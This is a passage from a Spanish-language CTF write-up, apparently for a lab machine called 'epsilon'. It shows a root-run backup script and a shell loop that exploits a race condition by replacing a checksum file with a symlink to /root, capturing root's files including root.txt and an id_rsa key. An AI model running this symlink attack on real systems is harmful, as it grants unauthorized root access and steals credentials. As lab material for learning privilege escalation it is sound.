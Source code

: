 ```bash
tom@epsilon:~$ cat /usr/bin/backup.sh 
#!/bin/bash
file=`date +%N`
/usr/bin/rm -rf /opt/backups/*
/usr/bin/tar -cvf "/opt/backups/$file.tar" /var/www/app/
sha1sum "/opt/backups/$file.tar" | cut -d ' ' -f1 > /opt/backups/checksum
sleep 5
check_file=`date +%N`
/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"
/usr/bin/rm -rf /opt/backups/*

```

Aquí lo interesante es que 

Voy a hacer un script que si existe el archivo, eso se mira con test -f en este caso checksum entre , elimine checksum y cree un enlace simbólico a /root. Eso se hace con ln -s /root checksum . 

Le añado los 5 segundos que pone el script de arriba para que coincida y nos muestre que ya se ha hecho.

Una vez hecho debería de aparecer un enlace simbólico a root en la carpeta /var/backups/web_backups... vamos a ver.

```bash
tom@epsilon:/opt/backups$ while :; do if test -f checksum; then rm -f checksum; ln -s /root checksum; echo "Se quitó el checksum"; sleep 5; echo "Backup Hecho"; break; fi; sleep 1; done
Se quitó el checksum
Backup Hecho
```

he entrado en /var/backups y aparece el enlace relativo , una vez que entro salen unos gz... no es lo que esperaba pero bueno, me los copio en home y voy a ver que tienen dentro

```bash
tom@epsilon:/var/backups/web_backups$ ls -l
total 80412
-rw-r--r-- 1 root root  1003520 Jun 30 19:45 415680197.tar
-rw-r--r-- 1 root root  1003520 Jun 30 19:46 439764612.tar
-rw-r--r-- 1 root root 80332800 Jun 30 19:47 460183678.tar
```
Copiamos en home el del tamaño diferente, lo descomprimos y vemos que ya checksum no es un archivo sino una carpeta (realmente un enlace sibólico a /root)

![](assets/2022-06-30-21-51-18.png)

Ya tendríamos el root.txt e incluso el id_rsa para poder conectarnos